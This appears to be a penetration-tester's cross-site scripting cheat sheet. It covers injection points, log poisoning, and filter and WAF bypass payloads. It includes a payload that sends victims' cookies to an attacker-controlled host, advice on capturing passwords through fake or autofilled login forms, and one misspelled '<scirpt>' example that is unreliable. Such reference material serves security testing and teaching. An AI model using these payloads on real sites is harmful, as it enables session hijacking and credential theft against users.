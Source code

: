 # XSS/Cross Site Scripting

{% embed url="https://github.com/s0md3v/AwesomeXSS" %}

## XSSable Locations

### In the Document

XSS can occur as a result of the following things:

* The attacker can inject certain HTML tags
  * The simplest example is the `<script>` tag, but others can also work, such as `<img src=x onerror=alert(1)>`
* The attacker can inject text in between certain tags or in certain fields
  * The same as above, but instead of injecting the tag, the tag already exists, and the attacker is able to write text in between the tag.
  * For example, there's a `<img src=ATTACKER_INPUT_HERE>` tag, and the attacker injects `x onerror=alert(1)`
* The attacker can inject a malicious URL.
  * For example, `<a href="javascript:alert(1)">click me</a>`

### Log Poisoning

You can try to sneak XSS payloads into logs. If the application that views the logs treats input insecurely, then it might result in XSS.

If the User-Agent header is logged, then putting the payload there would be an easy way to get javascript into the log file.

## Payload Variations

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

Here are some common ones:

```
# Normal script tags
<script>alert(1)</script>

# HTML attributes, like img onerror
<iMg src=x onerror=prompt(1337);>

# XSS in between tags
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />     ← injecting ‘);alert(‘xss 

# Iframe xss, bypasses some sanitizers if “srcdoc” attribute is allowed
<iframe srcdoc="&lt;img src=x:x onerror=alert(1)&gt;"></iframe>
```

## Stealing Things

### Catch and Store Stolen Credentials

### Cookies

If cookies are configured to be accessible via Javascript (no **HttpOnly** flag), then you can just fetch the cookie and do a GET request to a site you control:

```
<iMg src=x oNerRor=this.src='https://mysite.com/somepage?creds='+document.cookie>
```

If you need a site for catching cookies, then [https://requestcatcher.com/](https://requestcatcher.com) should be useful.

### Passwords

You can capture a user's password. For example:

1. You can display a login page to the user and capture their password if they choose to enter it.
2. If the victim’s browser has remember password enabled, you can put a login form on the page, wait 1 second while the browser pastes their password there and then capture that.

## Filter Bypassing

### Multiple Fields Method

Works for **Chrome XSS Auditor** and many other filters. The bypass works by having two query parameters that you can inject into. When you combine the two injections, then a valid javascript payload is formed, and the XSS auditor doesn't detect it.

For example, the first parameter:

```
<script>alert("hi
```

The second parameter:&#x20;

```
");</script>
```

More bypasses: [https://www.youtube.com/watch?v=8GwVBpTgR2c](https://www.youtube.com/watch?v=8GwVBpTgR2c)

### Global Variables

[https://materials.rangeforce.com/tutorial/2019/10/23/ModSecurity-Filter-Evasion/](https://materials.rangeforce.com/tutorial/2019/10/23/ModSecurity-Filter-Evasion/)

This works for weak (default) **ModSecurity** rulesets.

Simple example:

```
<scirpt>self["alert"]("foo");</script>
```

### Nested Payloads

If malicious input is stripped only once, then try nested payloads:

```
<scri<script>pt>alert(1)</scri</script>pt>
```

### Various Payloads

Here are some more interesting payloads:

```
# Iframe XSS
<iframe srcdoc="&lt;img src=x:x onerror=alert(1)&gt;"></iframe>

# Against server-side parsers, this was an XSS in Google
<noscript><p title="</noscript><img src=x onerror=alert(1)>"> 

# CRLF injection to bypass javascript: being blacklisted
java%0d%0ascript%0d%0a:alert(0)

# incase svg onload= is filtered, the %0d acts as a seperator and can sometimes confuse wafs.
# %0a %0c %09 %00 are also common separators to use here.
<svg%0donload=prompt(1)>

# Uncommon XSS vector
<input onfocus=alert(0) autofocus>

# The use of \\ will break out of a quote inside a script tag
\\"-alert(0);//

# onmouseenter is like onmouseover, and confirm is like prompt
"onmouseenter=confirm(1)>
```





###





